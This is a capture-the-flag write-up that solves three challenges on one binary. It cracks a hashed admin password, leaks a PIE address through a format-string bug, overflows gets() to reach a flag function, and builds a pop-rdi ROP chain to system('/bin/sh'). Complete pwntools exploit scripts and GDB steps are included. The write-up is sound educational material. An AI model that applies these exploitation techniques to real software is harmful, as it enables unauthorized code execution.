

In this writeup I will be going over the 3 `16 bit game ranking` challenges made by salt. They are `rev` and `pwn` challenges. They are fairly easy but since in 2023 I couldn't figure out the similar `pwn` challenges, I was pretty happy to solve them this year.

The first part is a `rev` challenge worth 50 points

The second part is a `pwn` challenge worth 100 points

The last parth is a `pwn` challenge worth 300 points

<!-- truncate -->

## Part 1 (rev, 50 pts)

We are given a `chal1` executable file.

First step is to identify what kind of executable it is. In this case we have a `dynamically linked, non-stripped 64bit ELF`. Also note that the executable did not come with `libc.6.so` or any library so it's less likely we will have to perform `ret2libc` or something like that.


Then it's always useful to check which security measures are enabled on the executable. Here we have `NX` and `PIE`, meaning that we cannot execute code directly on the stack (`NX`) and we will have to leak an address before jumping to functions (`PIE`).


We will start with a quick statical analysis of the executable to see what it does, so we open it in Ghidra.

After loading `chal1` in Ghidra we see that we have these functions available, and the following decompilation for `main`


We can see that there is a "hidden" menu option that triggers the `admin` function when passed the `0xdead` (`57005` in decimal) value.

`admin` function decompiled
```c
void admin(void)

{
  int iVar1;
  size_t sVar2;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_4c;
  undefined2 local_44;
  undefined8 local_42;
  undefined2 local_3a;
  undefined8 local_38;
  undefined local_30;
  undefined7 uStack_2f;
  undefined uStack_28;
  undefined8 local_27;
  FILE *local_10;
  
  getchar();
  puts("Can we trust you?");
  puts("Plz wait 10 secondes before entering the password!");
  local_10 = (FILE *)0x0;
  local_38 = 0;
  local_30 = 0;
  uStack_2f = 0;
  uStack_28 = 0;
  local_27 = 0;
  local_42 = 0;
  local_3a = 0;
  local_4c = 0;
  local_44 = 0;
  local_68 = 0;
  local_60 = 0;
  local_78 = 0x4551207ed67005b4;
  local_70 = 0x4621e6068943f87f;
  sleep(10);
  puts("Ok you can enter the password!");
  fgets((char *)&local_4c,10,stdin);
  sVar2 = strcspn((char *)&local_4c,"\n");
  *(undefined *)((long)&local_4c + sVar2) = 0;
  sVar2 = strlen((char *)&local_4c);
  gcry_md_hash_buffer(1,&local_68,&local_4c,sVar2);
  iVar1 = memcmp(&local_68,&local_78,0x10);
  if (iVar1 == 0) {
    local_10 = fopen("flag1.txt","r");
    if (local_10 == (FILE *)0x0) {
      puts(
          "ERROR! The flag cannot be read! Try again and if the problem persists contact the designe r!"
          );
    }
    else {
      puts("This is your flag:");
      fgets((char *)&local_38,0x19,local_10);
    }
    puts((char *)&local_38);
    fclose(local_10);
    puts("You\'re admin! We can trust you! Give us your instruction!");
    gets((char *)&local_42);
    puts(
        "NB: Your instruction will not be recorded for the moment. We will fix the problem one day!"
        );
  }
  else {
    printf("Wrong password!");
  }
  return;
}
```

This function can clearly print a flag, so let's try that first.

Let's run the executable and input `57005` to trigger the admin function.


Alright, now all we have to do is find the password.

Looking at the `admin` decompiled code, this part is interesting:

```c
  local_4c = 0;
  local_44 = 0;
  local_68 = 0;
  local_60 = 0;
  local_78 = 0x4551207ed67005b4;
  local_70 = 0x4621e6068943f87f;
  sleep(10);
  puts("Ok you can enter the password!");
  fgets((char *)&local_4c,10,stdin);
  sVar2 = strcspn((char *)&local_4c,"\n");
  *(undefined *)((long)&local_4c + sVar2) = 0;
  sVar2 = strlen((char *)&local_4c);
  gcry_md_hash_buffer(1,&local_68,&local_4c,sVar2);
  iVar1 = memcmp(&local_68,&local_78,0x10);
  if (iVar1 == 0) {
    local_10 = fopen("flag1.txt","r");
```

It compares the `local_68` and `local_78` buffers of `0x10` bytes, where `local_68` is the hashed value from `local_4c`. 

First `fgets` fills `local_4c` with the user input, then `gcry_md_hash_buffer` hashes the bytes before `\n` in the input and stores them in `local_68`.

We can assume that `local_78` is a hash since `local_68` is compared to it after being hashed. So all we have is to try to crack the `local_78` hash.

Since `chal1` is little endian (LSB, see the file command screenshot), we need to swap endianness.

```c
  local_78 = 0x4551207ed67005b4;
  local_70 = 0x4621e6068943f87f;
```


Then, take the output and input it to a online hash cracker like [crackstation](https://crackstation.net/).


We see that it matches the `bubbles1` string. Let's try that as password to get the first flag. 




## Part 2 (pwn, 100 pts)

After obtaining the first flag, this code is executed in the `admin` function:

```c
local_10 = fopen("flag1.txt","r");
if (local_10 == (FILE *)0x0) {
    puts("ERROR! The flag cannot be read! Try again and if the problem persists contact the designer!");
}
else {
    puts("This is your flag:");
    fgets((char *)&local_38,0x19,local_10);
}
puts((char *)&local_38);
fclose(local_10);
puts("You\'re admin! We can trust you! Give us your instruction!");
gets((char *)&local_42);
puts("NB: Your instruction will not be recorded for the moment. We will fix the problem one day!");
```

The `gets` function call does not check buffer size and can seemingly overflow. But since `PIE` is enabled, we can't directly use function addresses to overflow the `rip` register.

Looking at the decompiled functions, we can find a `flag` function which prints the `flag2.txt` file directly, so this is where we want to jump to.


### Calculating the overflow offset 

First we want to make sure we can overflow with `gets` and calculate the offset at which we overwrite the `rip` register.

Let's first print a cyclic string to calculate the offset

```python
python
import pwn
pwn.cyclic(150)
# aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
```

Then let's open the executable in GDB, and print a cyclic string into the `gets` function. I use [gdb peda](https://github.com/longld/peda) to add some functionality to GDB.

Enter the `admin` function with `57005` and the `bubbles1` password, then print the cyclic string. The program should get a segmentation fault

```bash
gdb ./chal1
run
57005
bubbles1
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
```


We see that `rsp` contains our cyclic string. Copy the first 4 bytes `aara` and paste them in python pwntools `pwn.cyclic_find('aara')` to obtain the offset `66`. We will use that as padding to overwrite the return pointer later.

### Leaking an address

Now we are looking for a print string vulnerability that would leak an address on the stack to bypass the `PIE` restriction.

Looking around in the code, I found a `printf` call that passed the user input directly without using format string parameters in the `vote` function:


We see that when we submit a vote it expects `U` or `D`, but when some other input is passed, printf outputs the input directly. We can leverage that to print arbitrary addresses on the stack.

To see what we might be looking for, it's useful to debug the program around that point in GDB

Let's first note what the address for this instruction is in the assembly section of Ghidra, we'll use it to set a breakpoint in GDB:


Now let's open GDB and `disass vote`, and set a breakpoint to the function instruction offset. 

```bash
gdb ./chal1
disass vote
```

In the output, we can find the corresponding address and instruction offset. We are not using the address directly since it gets modified when executed for the first time with `PIE`.


We add a breakpoint to it and run the program:

```bash
break *vote+381
run
```


When hitting the breakpoint, notice addresses on the stack start with `0x7fff` and the addresses of the assembly instructions start with `0x5555`. This could be confirmed further by running `info proc map` to find what sections of the memory are mapped to the stack, the heap, .text section, etc.

We are looking for a `0x5555` address on the stack so that we can deduct it's instruction offset from it to determine the base address. Here we see that the `0x7fffffffdb78` address on the stack contains `0x5555555560c7`. We also see that `0x5555555560c7` points to `main+202`.

Let's quickly examine the bytes at the `0x5555555560c7` instruction.


These are the opcodes of the instruction, we can try to find where this instruction is in Ghidra (in `main`)


Here we see that the instruction matches the `jmp` that we saw in a previous screenshot, and the opcodes that we just identified.

Note the address `0x001020c7` of this instruction.

Now we will try to leak the `0x5555555560c7` instruction with `%p` format strings. Note that the instruction address will change every time the executable is run, so we are looking for the "shape" `0x5555` when leaking.

We can use the `%<number>$<format>` format string to print addresses with a specific offset since the address we are looking for isn't directly leaked with `%p`. the `%1$p`, `%2$p`, `%3$p`,`%4$p`, `%5$p` will leak the registers `rsi`, `rdx`, `rcx`, `r8` and `r9` respectively because of how 64bit arguments are passed, the other arguments are taken directly on the stack. So we can use `%6$p` onwards to leak stack addresses.

Looking at the stack before the printf call we see that we have to use the `%11$p` offset (annoted on the screenshot) to leak the correct address.


Perfect now we can calculate the base address by calculating `0x5555555560c7 - 0x001020c7`, then we can add any other "static" address onto it to redirect execution, effectively bypassing `PIE`. 

### Automating the exploit with pwntools

Now we want to create a `pwntools` script that will automate this process for us. It will first leak the address, then go back to the main menu, go to the hidden menu, enter the password, then enter the calculated address of the `flag` function at the correct offset to redirect execution to print the flag.

```python
from pwn import *

context(os='linux', arch='amd64')

filename = "./chal1"
offset = 66

context.binary = elf = ELF(filename)

# p = remote('pwn.challenges.hfctf.ca', 1234)
p = process(filename)

padding = b"A" * offset

def extract_address(input_bytes):
    return input_bytes.decode('utf-8').split(': ')[1].strip()

p.sendline(b'3')
p.sendlineafter(b'Submit the game ID:\n', b'1')
p.sendlineafter(b'Submit your vote (UP or DOWN):', b'%11$p')
p.sendline() # the program expects a second newline for some reason

p.recvline() 
out = p.recvline()
addr = extract_address(out)

base_addr = int(addr, 16) - 0x001020c7
flag_function_addr = base_addr + 0x00101f18

p.sendlineafter(b'Type 1 for yes or anything else for no:', b'n')
p.sendline(b'57005')
p.sendline(b'bubbles1')

payload = padding + p64(flag_function_addr)

p.sendlineafter(b'You\'re admin! We can trust you! Give us your instruction!', payload)

p.interactive()
```

Then execute it `python exploit2.py` (you would uncomment the remote part if it was the actual challenge)


## Part 3 (pwn, 300 pts)

For the last part it is suggested that we try running a `/bin/sh` shell after obtaining the second flag so let's do that.

Looking at the available functions, we see `testsystem` and `popopops` that are of interest. All we have to do is load `/bin/sh` in `rdi` (since `rdi` is the first argument of functions in 64 bit assembly) and then call `system`.

`testsystem` calls the system function with `whoami`.


`popopops` is basically a `pop rdi` ROP gadget.


And knowing that the string `/bin/sh` was present in the `flag` function, it means we could use it in our exploit easily.


The idea here is to find the address of the `/bin/sh` string, the `system` call and the `pop rdi` gadget to build a simple ROP chain.

So, to get the address of `/bin/sh` let's first take a look at where the full string containing it is in Ghidra


The beginning of the string is at `0x001037e8`, we simply have to calculate by how much we should increment this value so that the string starts at `/bin/sh`


The `/bin/sh` string would then be at `0x00103806`

Now the address for system is straightforward `0x00102112`


And the address of `pop rdi` is also straightforward: `0x0010211e` 


Now, using the leaked address from part two we can build the rop chain and call `system("/bin/sh")` with this simple rop chain

Here's the updated pwntools script, only the last section for the payload is changed

```python
# ...
base_addr = int(addr, 16) - 0x001020c7
flag_function_addr = base_addr + 0x00101f18
bin_sh_addr = base_addr + 0x00103806
pop_rdi_addr = base_addr + 0x0010211e
system_addr = base_addr + 0x00102112

p.sendlineafter(b'Type 1 for yes or anything else for no:', b'n')
p.sendline(b'57005')
p.sendline(b'bubbles1')

# First we call pop rdi, which takes the bin/sh address from the stack and puts it in rdi
# then it returns to system
payload = padding + p64(pop_rdi_addr) + p64(bin_sh_addr) + p64(system_addr)

p.sendlineafter(b'You\'re admin! We can trust you! Give us your instruction!', payload)

p.interactive()
```

Running it gives a `/bin/sh` shell which we use to print the flag


I really enjoyed this challenge, I hope to see pwn challenges again next year!